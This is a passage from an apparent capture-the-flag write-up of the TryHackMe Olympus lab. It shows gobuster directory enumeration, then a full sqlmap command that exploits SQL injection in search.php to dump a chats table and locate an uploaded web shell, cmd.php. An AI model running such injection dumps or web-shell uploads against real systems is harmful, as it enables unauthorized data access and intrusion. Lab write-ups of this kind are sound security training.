 ```shell
[+] Method:                  GET                                                                                      
[+] Threads:                 50                                                                                       
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt                           
[+] Negative Status codes:   404                                                                                      
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/23 00:03:00 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 281]
/.hta                 (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/index.php            (Status: 302) [Size: 0] [--> login.php]
/javascript           (Status: 301) [Size: 325] [--> http://chat.olympus.thm/javascript/]
/phpmyadmin           (Status: 403) [Size: 281]                                           
/server-status        (Status: 403) [Size: 281]
/static               (Status: 301) [Size: 321] [--> http://chat.olympus.thm/static/]    
/uploads              (Status: 301) [Size: 322] [--> http://chat.olympus.thm/uploads/]   
                                                                                         
===============================================================
2022/09/23 00:03:11 Finished
===============================================================
```

The file `cmd.php` should be at `http://chat.olympus.thm/uploads/cmd.php`, but there was another table called `chats`, which contains important information: `The IT guy used a random file name function to make it harder for attackers to access the uploaded files`. So we have to rerun `sqlmap` in order to view the file name of our uploaded file.

```shell
geobour98@kali:~$ sqlmap -u "http://olympus.thm/~webmaster/search.php" --data="search=1337*&submit=" --random-agent -v 3 --batch -D  olympus -T chats -C dt,file,msg,uname --dump
[REDACTED]
Database: olympus
Table: chats
[3 entries]
+------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+
| dt         | file                                 | msg  
                                                                                                | uname      |
+------------+--------------------------------------+-----------------------------------------------------------------
------------------------------------------------------------------------------------------------+------------+
| 2022-04-05 | 47c3210d51761686f3af40a875eeaaea.txt | Attached : prometheus_password.txt                              
                                                                                                | prometheus |
| 2022-04-05 | <blank>                              | This looks great! I tested an upload and found the upload folder
, but it seems the filename got changed somehow because I can't download it back...             | prometheus |
| 2022-04-06 | <blank>                              | I know this is pretty cool. The IT guy used a random file name f
unction to make it harder for attackers to access the uploaded files. He's still working on it. | zeus       |
```